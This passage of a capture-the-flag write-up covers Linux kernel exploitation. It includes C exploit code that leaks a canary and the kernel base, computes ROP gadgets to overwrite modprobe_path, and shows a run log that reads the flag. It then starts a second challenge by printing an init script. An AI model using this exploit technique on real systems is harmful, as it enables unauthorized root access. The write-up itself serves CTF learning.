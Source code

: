 ```c
        char buf[0x140];
        printf("[*] try to read from kernel, return %ld \n", read(global_fd, buf, 0x140));
        // long long unsigned base = u64(buf + 0xd8) - 0x569977;
        for(int i=0; i<0x140; i+=8){
        //      printf("[0x%x] %llx \n", i, u64(buf + i));
        }
        canary = u64(buf + 0x10);
        base = u64(buf + 0x130) - 0xa157;
        modprobe_path = base + 0x1061820;
        kpti_gadget = base + 0x200f10 + 0x16;
        pop_rax_ret = base + 0x4d11UL; // pop rax; ret;
        pop_rbx_r12_rbp_ret = base + 0x3190UL; // pop rbx ; pop r12 ; pop rbp ; ret;
        write_ptr_rbx_rax_pop2_ret = base + 0x306dUL; // mov qword ptr [rbx], rax; pop rbx; pop rbp; ret;
        printf("[*] kernel base is %llx\n", base);
        init_tf_work();
        overflow();
        return 1;
}
```

Awesome!

```
/ $ /exp
[+] open ko, return 3
[*] try to read from kernel, return 320
[*] kernel base is ffffffff95200000
[*] Reg saved cs = 33, ss = 2b, flags = 206, user_sp = 7ffce5505978
[*] Prepared payload to overwrite modprobe_path
[*] Returned to userland, setting up for fake modprobe
[*] Run unknown file
/tmp/dummy: line 1: ����: not found
[*] Hopefully flag is readable
flag{TEST}
```

## pfoten | 18 solves | 370 points

A challenge containing no bug module or driver.

> Note: 
>
> 
>
> The kernel is a standard Linux kernel, we didn’t add any vulnerabilities.

Sounds like problems can only be found in init file

```bash
x1do0@x1do0:~/kernel_learning/pfoten$ cat ./files/etc/init.d/rcS
#!/bin/sh

/bin/busybox --install -s

stty raw -echo

chown -R 0:0 /

mkdir -p /proc && mount -t proc none /proc
mkdir -p /dev  && mount -t devtmpfs devtmpfs /dev
mkdir -p /tmp  && mount -t tmpfs tmpfs /tmp

umask 111

dd if=/dev/zero bs=1M count=10 of=/swap status=none
```